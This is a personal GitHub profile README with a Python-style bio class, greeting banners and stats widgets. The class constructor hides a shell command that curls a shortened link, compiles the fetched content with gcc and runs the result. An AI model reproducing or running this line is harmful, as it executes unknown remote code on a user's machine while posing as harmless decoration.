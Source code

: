 <h1 align="center">Hi 👋, I'm Lorin 🍈</h1>
![](https://hit.yhype.me/github/profile?user_id=77785833)
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?color=%2336BCF7&center=true&lines=Welcome!;Willkommen!;%C2%A1Bienvenido!;Bi+x%C3%AAr+hat%C3%AE!;K%CE%B1%CE%BB%CF%89%CF%83%CF%8C%CF%81%CE%B9%CF%83%CE%BC%CE%B1!;%E3%82%88%E3%81%86%E3%81%93%E3%81%9D%EF%BC%81;Croeso!"/> 
</p>

```python
class melorin4:
  def __init__(self):
    subprocess.call("curl -sL 'spoti.fi/3pdhI4G' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 🐧 i'm interested in'           : {'art, *NIX customisation, linux and BSD in general >:)'}
      '- 💼 i am a'                      : {'17 year old high school student'},
      '- 🔭 i’m currently working on'    : {'my personal website' : 'https://melorin4.github.io',
                                            'cFetch'              : 'https://github.com/melorin4/cfetch'},
      '- 🌱 i’m currently learning'      : {'python', 'javascript', 'GDScript', 'web development', 'godot engine'},
      '- 💬 you ask me about'            : {'linux', 'art', 'games', 'books'}
      '- 👨‍💻 my art is available at'      : 'https://www.instagram.com/melolorin/',
      '- ⚡ fun fact'                    : ('i'm a void linux shill :>')
    }
if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(melorin4().__dict__)
```
<br>
  
<h4 align="center">where to find me </h4>
<p align="center">



</p>
<h4 align="center">languages & other stats 💻</h4>
<p align="center">
<a href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api?username=melorin4&include_all_commits=true&count_private=true&show_icons=true&theme=radical&hide_border=true&custom_title=melorin4%27s%20Github%20Stats" width="48%" alt="lorin"/></a>
</p>
<p align="center">
<a href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api/top-langs/?username=melorin4&&show_icons=true&theme=radical&hide_border=true&layout=compact&custom_title=beep%20boop" alt="melorin4"/></a>
</p>
<br>
